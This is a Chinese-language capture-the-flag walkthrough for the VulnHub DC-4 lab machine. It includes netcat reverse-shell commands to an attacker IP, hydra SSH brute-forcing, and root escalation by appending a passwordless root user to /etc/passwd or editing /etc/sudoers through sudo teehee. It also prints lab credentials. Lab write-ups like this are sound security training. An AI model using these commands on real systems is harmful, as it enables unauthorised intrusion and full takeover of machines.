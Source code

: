 # DC 4

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-4,313/
## 知识点

- 反弹shell
- SSH爆破
- SUID-teehee提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 10.30.0.135
```

扫出22和80端口

![](./img/vulnhub-dc4-1.png)
## 漏洞利用

利用burpsuite暴力破解得到admin与happy，登录后发现存在执行代码的功能点

![](./img/vulnhub-dc4-2.png)

抓包尝试命令whoami

![](./img/vulnhub-dc4-3.png)

尝试反弹shell

```bash
nc -lvp 4444 # kali
nc -nv 10.30.0.81 4444 -e /bin/bash # 目标
nc+-nv+10.30.0.81+4444+-e/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![](./img/vulnhub-dc4-4.png)

```bash
cd /home/jim/backups
cat old-passwords.bak # 是密码表，直接用hydra对jim用户来爆破SSH密码
hydra -l jim -P password.txt ssh://10.30.0.135
```

![](./img/vulnhub-dc4-5.png)

获得账号密码：jim jibril04

```bash
ssh jim@10.30.0.135
ls
cat mobx # root发给jim的邮件，提示看邮箱
cat /var/mail/jim
```

![](./img/vulnhub-dc4-6.png)

charles | ^xHhA&hvim0y
```bash
ssh charles@10.30.0.135
sudo -l
```
![](./img/vulnhub-dc4-7.png)

说明charles用户可以使用sudo权限运行teehee命令，可以查看这个命令能做什么：可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限
```
teehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```
![](./img/vulnhub-dc4-8.png)
## 参考链接

- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC4-WalkThrough.md
- http://www.kxsy.work/2021/07/27/shen-tou-dc-4/
